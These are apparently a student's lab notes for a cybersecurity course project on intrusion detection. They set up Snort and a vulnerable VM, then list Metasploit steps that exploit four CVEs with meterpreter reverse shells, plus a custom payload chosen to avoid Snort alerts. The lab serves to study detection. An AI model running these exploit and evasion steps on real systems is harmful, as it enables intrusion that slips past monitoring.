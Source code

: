 cybersecurity base project 2 notes

<REMOTEHOST> = 172.28.128.3
<LOCALHOST> = 172.28.128.4
<SNORTINTERFACE> = 2

 virtualbox-iso: The VM will be run headless, without a GUI. If you want to
 virtualbox-iso: view the screen of the VM, connect via VRDP without a password to
 virtualbox-iso: rdp://127.0.0.1:5985
 virtualbox-iso: Waiting 2m0s for boot...

=Install=
1. Clone
2. vagrant plugin install vagrant-omnibus
3. Vagrant up
=Configuration=
1. Install Snort 2.9.9.0 & snortrules-snapshot-2976
2. Install WinPCap 4.1.1
3. Snort conf changes
4. Test with C:\Snort\bin\snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -k none -T
5. Ping test works with snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none

Test ping rule local.rules:  alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"ICMP test"; sid:10000001; rev:001;)

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

Creating undiscovered exploit:
4. CVE-2016-2019 - Wordpress Ninja Forms Unauthenticated file upload
	1. use exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8585
	4. set TARGETURI /wordpress/
	5. set FORM_PATH /index.php/king-of-hearts/
	_To alert snort_
	6. set payload php/meterpreter/bind_tcp
	7. set LHOST <LOCALHOST>
	8. run
	_To not alert snort_
	6. set payload generic/custom
	7. set payloadfile <PATHTOEXPLOIT> (e.g /root/cve_2016-2019_undetected.php)
	8. run
5. 

Exploit failed: NoMethodError undefined method '[]' for nil:nilClass
FIX:
https://github.com/rapid7/metasploit-framework/commit/f838c9990fa3a7858297ada47288cc67f04d87e4